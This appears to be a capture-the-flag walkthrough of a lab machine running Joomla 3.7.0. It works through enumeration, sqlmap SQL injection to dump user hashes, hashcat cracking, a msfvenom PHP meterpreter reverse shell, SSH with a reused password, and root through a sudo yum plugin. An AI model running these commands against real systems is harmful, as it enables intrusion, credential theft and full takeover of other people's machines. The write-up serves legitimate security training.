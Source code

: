 # enumerate
- 22/tcp   open  ssh
- 80/tcp   open  http
  - robot.txt
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
  - /administrator/ admin login
  - /README.txt joomla version

- 3306/tcp open  mysql


* gobuster
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/cgi-bin/.html (Status: 403)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/templates (Status: 301)
/tmp (Status: 301)
```
I found out that the server is running Joomla 3.7.0 (from README.txt) and there is a exploit for this version [ExploitDB](https://www.exploit-db.com/exploits/42033)

# foothold
The vulnerability on Joomla 3.7.0 allow attacker to run SQLi attack. The plan is we will using `sqlmap` to fetch all database on the victem server. We might find a admin credential for Joomla which allow us to log in to `/administrator`

First let fetch the databaeses:
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
*
*
*
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```
The most interesting database in this case is joomla, let hope that it will contain a credential that allow us to login to the admin page. to list the table in database we run:
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables --threads 10
```
There are many table in joomla database. but if you look closely you will find `#__users` which looks interesting for us.. Lets dump the mentioned table and hope that we will get a Joomla admin credential. 
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump --threads 10
```
Bing go ! There is one user in the table which is `jonah` and he is admin on Joomla. let crack his password hash using hashcat (3200 bcrypt)
```console
$ hashcat -m 3200 -a 0 -o crack.txt '$2y$<hash>' /usr/share/wordlists/rockyou.txt --force
```
Now, log in to `/administrator`. If you wanna know in depth how to get reverse shell by exploiting Joomla admin panel, read [here](Daily-Bugle.md).

let start with generate the payload using msfvenom
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=tun0 lport=1234 R
```
now open msfconsole and use multi/handler, run it. to execute our payload, visite this page `/templates/beez3/error.php`. You should get a meterpreter shell at this point.

from meterpreter, drop to shell and spawn a tty shell by run
```python -c 'import pty; pty.spawn("/bin/sh")'```

let enumerate a bit.
```console
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.2$ pwd
pwd
/var/www/html
sh-4.2$ cat configuration.php
public $password = '<password>';
sh-4.2$ ls /home
ls /home
jjameson
sh-4.2$ cd /home/jjameson
cd /home/jjameson
sh: cd: /home/jjameson: Permission denied
```

# user
this is what we know:
- we cant sudo coz we dont know the `apache`'s password. 
- a password in `configuration.php`
- there is a user call `jjameson`
- no premisson to access `jjameson` files

Remember our nmap? port 22 ssh is open, let ssh as `jjameson` using the password we found in `configuration.php`. BOOM we are in again !! Grab user flag.


recon... again...
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

# root
As you can see, we can run `yum` as root. So what do we do? like always. go to [GTFObins](https://gtfobins.github.io/gtfobins/yum/#sudo). Prefecto, There is two way to do it, 
1. It runs commands using a specially crafted RPM package. Generate it with fpm and upload it to the target. how to do it? read [here](https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/)
2. Spawn interactive root shell by loading a custom plugin. how to do it? just run the command that shown in GTFObins

I should to go with 2nd opion:
```console
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
```


